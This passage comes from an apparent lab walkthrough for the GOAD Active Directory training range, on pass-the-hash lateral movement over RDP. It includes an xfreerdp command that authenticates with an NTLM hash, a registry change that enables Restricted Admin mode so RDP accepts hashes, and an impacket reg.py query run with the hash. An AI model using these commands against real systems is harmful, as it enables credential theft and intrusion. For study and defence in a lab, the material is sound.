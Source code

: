 ### Using RDP

- If you try to do PTH with RDP :

```bash
xfreerdp /u:catelyn.stark /d:north.sevenkingdoms.local /pth:cba36eccfd9d949c73bc73715364aff5 /v:192.168.56.11
```

- You will have the following error :

![lateral_rdp_restriction.png](/assets/blog/GOAD/lateral_rdp_restriction.png)

>To allow rdp connection without password you must Enable restricted admin
{: .prompt-tip }

- Enable restricted admin:

```powershell
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

- Let's do this from linux, first let's show the current value :

```bash
reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' 
```

![lateral_rdp_query_disable_restricted_admin.png](/assets/blog/GOAD/lateral_rdp_query_disable_restricted_admin.png)
